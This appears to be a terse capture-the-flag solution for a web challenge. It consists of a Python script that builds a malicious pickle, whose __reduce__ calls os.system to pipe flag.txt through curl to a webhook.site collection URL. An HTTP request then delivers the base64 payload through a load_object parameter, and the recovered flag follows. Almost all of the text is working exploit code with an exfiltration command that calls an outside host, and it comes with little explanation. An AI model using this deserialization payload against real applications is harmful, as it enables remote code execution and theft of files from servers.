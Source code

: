 
https://dsw3qg.-ctf.com/submit_flag


import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('more flag.txt | curl -X GET --data-binary @- https://webhook.site/0cad5931-14e0-4bf5-b780-b3ed40d6a113?')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.b64encode(pickled))
    print(base64.urlsafe_b64encode(pickled))






GET /profile?load_object=gASVggAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjGdtb3JlIGZsYWcudHh0IHwgY3VybCAtWCBHRVQgLS1kYXRhLWJpbmFyeSBALSBodHRwczovL3dlYmhvb2suc2l0ZS8wY2FkNTkzMS0xNGUwLTRiZjUtYjc4MC1iM2VkNDBkNmExMTM/lIWUUpQu HTTP/1.1
Host: dsw3qg.-ctf.com
Content-Length: 32
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
Origin: https://dsw3qg.-ctf.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://dsw3qg.-ctf.com/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

username=XXX&email=YYYY&bio=XXXX


https://dsw3qg.-ctf.com/submit_flag/{'PICKL1NG_1S_DANGEROUS'}